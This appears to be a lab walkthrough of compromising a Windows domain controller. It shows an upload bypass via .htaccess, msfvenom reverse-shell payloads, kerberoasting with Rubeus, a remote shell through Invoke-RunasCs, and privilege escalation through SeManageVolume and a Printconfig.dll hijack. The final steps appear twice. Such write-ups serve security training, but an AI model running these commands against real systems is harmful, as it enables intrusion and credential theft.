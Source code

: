 
Seems to be a domain controller with the ports open
![](attachment/8ac886a73b87789e3876ee80bb7bb42a.png)

# 80
![](attachment/6ba5afb985a53c72543a84b840b5130e.png)
Website present

There is an upload on the website:![](attachment/7c7647c244b7d3226d2a4905db32cc33.png)
We also have an upload directory:
![](attachment/124187b1df9c0ef407f89029e1e057da.png)

Now we can modify the `.htaccess`

To create new `.htaccess` file:
```bash 
echo "AddType application/x-httpd-php .evil" > .htaccess
```
Now uploading it.
We can access it at http://192.168.218.187/uploads/shell.evil:
![](attachment/03e4c2305e762b0ec9ee1b875172fa72.png)
Then generating a msfvenom payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=192.168.45.186 LPORT=4444 > reverse.exe
```

Now we can execute it after transfering to get a shell:
![](attachment/72fd80088455a9ecce4b6611f1d0a7dc.png)


![](attachment/b8e368b3d5dd198b5a1e85e94327ac13.png)
Might be possible but the process is most likely running as svc_apache.

![](attachment/cd7c3e087ca20aca098653b58f3957a6.png)![](attachment/108fbcb2f02234eac9b91ae898897899.png)
Nope

![](attachment/993fccdb000804eac39426a26f669880.png)

Now using kerberoasting we got the hash:
```
.\Rubeus.exe kerberoast /nowrap /tgtdeleg
```
![](attachment/2dc4e890c915bdda2e37b23cbb506e0c.png)

Now cracking it:
![](attachment/353c1648877cef7b50ff1996098d5632.png)

Now to get a shell as svc_mssql:
```
import-module .\Invoke-RunasCs.ps1
```
```
Invoke-RunasCs svc_mssql trustno1 cmd.exe -remote 192.168.45.167:1234
```
We have SeManageVolumePrivilege:
![](attachment/07cadef6ba0d830aec9b8d7f11d67b39.png)

Now we can use an exploit:
https://github.com/CsEnox/SeManageVolumeExploit/releases
Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```

Then in powershell:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
Now should have got a shell
![](attachment/02e21ca77f13cbe857d748b02f57fef8.png)

Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
